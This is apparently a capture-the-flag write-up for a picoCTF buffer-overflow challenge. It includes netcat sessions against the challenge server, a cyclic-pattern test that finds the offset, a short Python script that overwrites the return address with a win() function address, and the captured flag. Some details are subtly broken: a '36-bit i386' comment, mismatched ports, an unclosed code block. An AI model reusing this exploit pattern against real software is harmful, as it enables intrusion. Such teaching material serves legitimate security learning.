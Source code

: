 # Buffer Overflow 0
This was a CTF challenge using a simple BOF vulnerability to redirect a flag. 

## The Challenge
Author: Alex Fulton / Palash Oswal
Description
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. And connect with it using: `nc saturn.picoctf.net 51110`

## The Solution
It is similar albeit a little easier to [this](https://github.com/stangeqwq/CTF/blob/main/UiTHack23/Mp3%20player.md). By inputting cyclic characters, we get information on the offset of `eip`. Note that depending on your computer architecture, you might need to adjust to `i386` architecture to execute the binary. In addition, we can safely assume that all security measures such as `canaries`, `NX`, `PIE`, etc. are disabled.
```console
┌──(ericjoshua㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 55885                     
Please enter your string: 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqq
Okay, time to return... Fingers Crossed... Jumping to 0x6c6c6c6c
```
`0x6c6c6c6c` is `llll` in ascii which suggests an offset of `40`. To find the address of the `win()` function, you can open up `gdb` and `disassemble win`. Doing so gives you the address of `0x080491f6`. The script I used was simple:
```python
offset = 40
eip_win = b"\xF6\x91\x04\x08" #0x080491f6 (little-endian 36-bit i386)
print(b'A'*offset + eip_win)
```console
──(ericjoshua㉿kali)-[~/Downloads]
└─$ python3 exploit.py | nc saturn.picoctf.net 51110
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

The flag is `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`

